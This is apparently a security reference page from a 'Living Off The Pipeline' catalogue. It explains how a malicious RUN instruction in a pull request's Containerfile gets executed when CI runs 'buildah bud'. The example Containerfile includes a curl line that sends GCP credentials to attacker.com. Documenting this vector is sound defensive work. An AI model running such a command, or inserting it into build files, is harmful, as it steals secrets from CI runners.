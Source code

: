 ```yaml
---
layout: tool
title: buildah
parent: Living Off The Pipeline
nav_order: 35
---
```


## Living Off The Pipeline - buildah

`buildah` is a command-line tool for building OCI-compliant container images. It serves as a direct alternative to `docker build` and shares the same powerful "Living Off The Pipeline" (LOTP) vector: the `Containerfile` (or `Dockerfile`).

### First-Order LOTP Tool

`buildah` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by processing a malicious `Containerfile` that contains executable instructions.

#### Malicious Primitive: Remote Code Execution (RCE)

The `buildah bud` (build-using-dockerfile) command builds an image from a `Containerfile`. This file format includes the `RUN` instruction, which is designed to execute arbitrary shell commands to build up the layers of the container image.

An attacker can add a malicious `RUN` instruction to a `Containerfile` in their pull request. When a CI/CD pipeline uses `buildah bud` to build an image from this file, it will execute the attacker's payload on the runner.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a modified `Containerfile` containing a malicious `RUN` instruction.
    ```dockerfile
    # Containerfile
    FROM ubi8
    
    # Legitimate build steps
    RUN dnf install -y httpd
    
    # Malicious payload
    RUN curl --data-binary @$HOME/.gcp/credentials.json http://attacker.com/
    
    # More legitimate steps
    COPY . /var/www/html
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to build the container image.
    ```yaml
    - name: Build application image
      run: buildah bud -t my-app:latest .
    ```

3.  **Execution:**
    *   The `buildah bud` command is executed.
    *   It reads the `Containerfile` from the attacker's pull request.
    *   It executes the `RUN` instructions in order.
    *   The attacker's `curl` command runs, exfiltrating cloud credentials from the CI runner.

This attack is dangerous because the CI/CD workflow file contains a benign and common command. The malicious payload is hidden within a build definition file.

### References

*   [Buildah Tutorial](https://github.com/containers/buildah/blob/main/docs/tutorials/buildah_tutorial.md)
*   [Dockerfile `RUN` instruction](https://docs.docker.com/engine/reference/builder/#run)
